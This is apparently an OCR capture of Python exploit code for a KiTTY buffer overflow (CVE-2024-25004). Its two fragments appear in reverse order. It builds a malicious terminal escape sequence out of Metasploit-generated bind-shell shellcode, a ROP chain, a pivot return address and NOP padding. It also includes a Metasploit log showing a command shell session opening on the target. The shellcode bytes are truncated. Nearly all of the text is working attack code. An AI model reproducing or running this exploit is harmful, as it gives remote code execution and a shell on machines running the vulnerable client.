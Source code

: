 ```python
rop_chain = create_rop_chain()

#----------------------------------------------------------------------------------#
# Badchars: \x00\x07\x0a\x0d\x1b\x9c\x3A\x40                                       #
# Return Address Information: 0x0052033c : {pivot 332 / 0x14c} :                   #
#   ADD ESP,13C # POP EBX # POP ESI # POP EDI # POP EBP # RETN                     #
#   ** [kitty.exe] **   |  startnull,ascii {PAGE_EXECUTE_READWRITE}                #
# Shellcode size at ESP: 1052                                                      #
#----------------------------------------------------------------------------------#

return_address = struct.pack('<I',  0x0052033c) # ADD ESP,13C # POP EBX # POP ESI # POP EDI # POP EBP # RETN    ** [kitty.exe] **   |  startnull,ascii {PAGE_EXECUTE_READWRITE}

rop_chain_padding = b'\x90' * 35 
nops = b'\x90' * 88

escape_sequence = b'\033]0;__dt:' + shellcode() + return_address
escape_sequence += rop_chain_padding + rop_chain
escape_sequence += b'\x90'
escape_sequence += b"\xE9\x2A\xFA\xFF\xFF" #jmp $eip-1490
escape_sequence += nops + b'\007'

stdout = os.fdopen(sys.stdout.fileno(), 'wb') 
stdout.write(escape_sequence)
stdout.flush()
```

```python
#!/usr/bin/python

#-------------------------------------------------------------------------------------#
# Exploit: KiTTY ≤ 0.76.1.13 Buffer Overflow Vulnerability in KiTTY Start             #
#        Duplicated Session Username Variable (CVE-2024-25004)                        #
# OS: Microsoft Windows 11/10/8/7/XP                                                  #
# Author: DEFCESCO (Austin A. DeFrancesco)                                            #
# Software:                                                                           #
# https://github.com/cyd01/KiTTY/releases/download/v0.76.1.13/kitty-bin-0.76.1.13.zip #
#-------------------------------------------------------------------------------------#
# More details can be found on my blog: https://blog.DEFCESCO.io/Hell0+KiTTY          #
#-------------------------------------------------------------------------------------#
# msf6 payload(windows/shell_bind_tcp) > to_handler                                   #
# [*] Payload Handler Started as Job 1                                                #
# msf6 payload(windows/shell_bind_tcp) >                                              #
# [*] Started bind TCP handler against 192.168.100.28:4444                            #
# [*] Command shell session 1 opened (192.168.100.119:34285 -> 192.168.100.28:4444)   # 
#-------------------------------------------------------------------------------------#

import sys
import os
import struct

#-------------------------------------------------------------------------------------#
# msf6 payload(windows/shell_bind_tcp) > generate -b '\x00\x07\x0a\x0d\x1b\x9c' -f py #
# windows/shell_bind_tcp - 355 bytes                                                  #
# https://metasploit.com/                                                             #
# Encoder: x86/shikata_ga_nai                                                         #
# VERBOSE=false, LPORT=4444, RHOST=192.168.100.28,                                    #
# PrependMigrate=false, EXITFUNC=process, CreateSession=true,                         #
# AutoVerifySession=true                                                              #
#-------------------------------------------------------------------------------------#

buf =  b""
buf += b"\xd9\xe9\xd9\x74\x24\xf4\xbd\xfe\xb7\xa4\x99\x5e"
buf += b"\x29\xc9\xb1\x53\x83\xee\xfc\x31\x6e\x13\x03\x90"
```